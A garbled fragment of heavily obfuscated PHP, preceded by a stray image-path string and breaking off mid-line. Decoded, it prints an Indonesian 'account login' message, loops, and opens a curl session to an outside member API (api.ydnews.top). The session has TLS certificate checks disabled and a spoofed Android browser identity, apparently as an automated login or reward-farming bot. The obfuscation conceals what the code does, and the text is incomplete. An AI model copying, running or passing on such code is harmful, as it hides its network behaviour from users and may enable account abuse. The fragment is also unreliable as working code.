 "));echo${${${"GL\x4f\x42\x41\x4cS"}["ml\x68qa\x78\x65\x6c\x6ct"]}}."[•]\x20\x6co\x67\x69\x6e\x20\x61\x6bu\x6e".${${${"G\x4cO\x42\x41LS"}["\x64i\x70m\x69\x73\x70n\x74\x70y\x68"]}};sleep(2);for(${${"\x47\x4c\x4f\x42A\x4c\x53"}["\x6b\x6f\x6c\x6d\x67\x77\x64"]}=0;${${"\x47\x4cOB\x41\x4c\x53"}["\x6b\x6f\x6c\x6dg\x77\x64"]}<${${"\x47\x4c\x4f\x42\x41\x4c\x53"}["p\x77\x62\x6c\x67\x6d\x6a\x78\x71\x70"]};${${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x6bo\x6c\x6d\x67\x77d"]}++){${"\x47\x4cO\x42\x41L\x53"}["\x6e\x65c\x7a\x69\x7a\x74\x6c\x63"]="\x6b\x71\x71\x77\x67l";${${"GLO\x42\x41\x4c\x53"}["\x65\x74\x65\x75cz\x6b\x6e\x6d\x71\x63n"]}="\x63\x68";${${"\x47LOB\x41L\x53"}["\x66i\x79\x77\x71vs"]}="\x63\x68";${"\x47LO\x42\x41L\x53"}["\x69\x6b\x64hea\x6a"]="\x74\x67\x6b\x77\x65\x70\x67\x6c\x62";${"GLOBA\x4c\x53"}["d\x64n\x66m\x79\x66"]="\x78w\x68\x72c\x6b\x6a";${"G\x4cO\x42\x41\x4c\x53"}["\x68\x73v\x7a\x74\x74"]="rf\x6f\x6a\x70\x78zd\x6cw";$hfskvmkdufkx="\x73\x78\x72p\x71\x68\x69";$qihljuur="e\x65c\x6a\x68\x69\x6b\x70";${$hfskvmkdufkx}="\x63\x6f\x64\x65";${"G\x4c\x4f\x42\x41\x4c\x53"}["\x6f\x64\x6b\x71\x69\x6a\x6f\x62"]="\x6e\x69\x6b";${"\x47L\x4fB\x41\x4c\x53"}["\x63\x70\x65c\x78\x70nx\x6bf"]="\x6bsp\x6b\x6c\x6af";${"\x47\x4c\x4f\x42A\x4c\x53"}["\x61g\x62\x72\x6c\x6cq"]="\x63o\x69\x6e";$nmbntbbdl="eec\x6ah\x69k\x70";${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x62\x72x\x6a\x6a\x70\x78"]="\x63\x68";${$nmbntbbdl}="\x63\x6f\x6e\x66\x69g";${${${"G\x4cOB\x41\x4c\x53"}["\x64\x64\x6ef\x6d\x79\x66"]}}=curl_init();${${"\x47\x4cO\x42\x41\x4c\x53"}["ldw\x69\x68\x6e\x70\x65\x66\x79"]}="\x63\x6f\x6e\x66\x69\x67";curl_setopt(${${"\x47\x4c\x4f\x42\x41\x4cS"}["b\x72x\x6aj\x70\x78"]},CURLOPT_URL,"h\x74\x74p\x73://\x61p\x69\x2e\x79\x64\x6e\x65\x77\x73\x2e\x74op/a\x70\x69/\x6d\x65m\x62\x65\x72/\x69nd\x65\x78");${${"G\x4c\x4f\x42\x41\x4c\x53"}["\x6f\x6f\x65\x77\x79qx\x61\x62"]}="\x6a\x73";${"\x47\x4cO\x42A\x4cS"}["\x67q\x66\x67\x6c\x79m"]="m\x77\x75g\x78u\x6e";${"\x47\x4c\x4f\x42A\x4c\x53"}["\x78\x66p\x62\x73g\x68"]="\x78";${"G\x4c\x4f\x42\x41\x4cS"}["\x75c\x71\x67\x6b\x69\x74\x68\x65"]="\x63\x68";${${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x6e\x65cz\x69\x7at\x6cc"]}="\x6a\x73";$cioima="\x6b\x6b\x69\x6e\x70b\x79\x78\x6a\x76";curl_setopt(${${"G\x4c\x4fBA\x4cS"}["\x78\x70\x62\x6a\x74\x6e\x6a"]},CURLOPT_FOLLOWLOCATION,0);${"G\x4cO\x42A\x4c\x53"}["\x7a\x74\x6f\x6d\x67v"]="\x64\x7a\x64\x66s\x76i";curl_setopt(${${"G\x4c\x4f\x42\x41\x4cS"}["\x75\x63\x71\x67\x6bi\x74h\x65"]},CURLOPT_COOKIEJAR,0);${"\x47\x4c\x4f\x42\x41LS"}["\x65lp\x73ul\x79\x61\x68"]="\x63\x68";curl_setopt(${${"\x47\x4cO\x42A\x4c\x53"}["\x78\x70\x62\x6a\x74\x6e\x6a"]},CURLOPT_COOKIEFILE,0);curl_setopt(${${"\x47\x4cO\x42\x41\x4c\x53"}["\x78\x70\x62\x6a\x74\x6e\x6a"]},CURLOPT_RETURNTRANSFER,1);${${"GL\x4f\x42\x41\x4c\x53"}["\x79e\x6c\x78hx\x63w\x64o"]}="\x75\x73e\x72";${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x79\x65\x70\x6dr\x6d\x76\x73"]="ch";curl_setopt(${${"\x47LO\x42A\x4c\x53"}["\x78p\x62\x6a\x74n\x6a"]},CURLOPT_SSL_VERIFYPEER,0);${${"\x47\x4cO\x42\x41\x4cS"}["\x62v\x6f\x73\x78\x70x"]}="\x63\x68";curl_setopt(${${"\x47\x4c\x4f\x42A\x4c\x53"}["y\x65\x70\x6d\x72\x6d\x76\x73"]},CURLOPT_SSL_VERIFYHOST,0);${"\x47\x4c\x4fB\x41\x4c\x53"}["zqo\x6ce\x6a"]="\x78";$sbbruowws="k\x71\x71\x77g\x6c";curl_setopt(${${${"\x47\x4c\x4f\x42AL\x53"}["\x69kd\x68\x65\x61j"]}},CURLOPT_USERAGENT,0);curl_setopt(${${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x78\x70\x62\x6a\x74\x6ej"]},CURLOPT_REFERER,0);curl_setopt(${${${"\x47LOBA\x4cS"}["\x63\x70ec\x78\x70\x6e\x78\x6b\x66"]}},CURLOPT_HTTPHEADER,array("\x41c\x63\x65pt-\x4c\x61ngu\x61\x67e:\x20i\x6e-\x49\x44,\x69\x6e\x3b\x71\x3d\x30\x2e\x38","\x55s\x65\x72-\x41\x67e\x6e\x74:\x20\x4d\x6fz\x69\x6c\x6c\x61/\x35\x2e\x30\x20(L\x69nu\x78\x3b\x20\x55\x3b\x20\x41n\x64r\x6f\x69\x64